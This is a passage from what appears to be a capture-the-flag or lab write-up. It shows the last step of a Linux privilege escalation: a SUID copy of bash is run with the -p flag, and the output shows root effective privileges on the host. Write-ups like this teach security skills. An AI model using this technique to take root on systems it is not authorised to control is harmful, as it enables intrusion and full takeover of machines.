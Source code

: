 Now we can run `./bash -p`. The `-p` parameter is to keep persistent permissions, so that it can run as root with SUID as otherwise bash will sometimes drop the permissions.

```commandline
cappucino@polonfs:~$ ./bash -p
bash-4.4# whoami
root
bash-4.4# id
uid=1000(cappucino) gid=1000(cappucino) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),1000(cappucino)
bash-4.4#
```

As you can see, we are `root` user now and have full access on this computer.

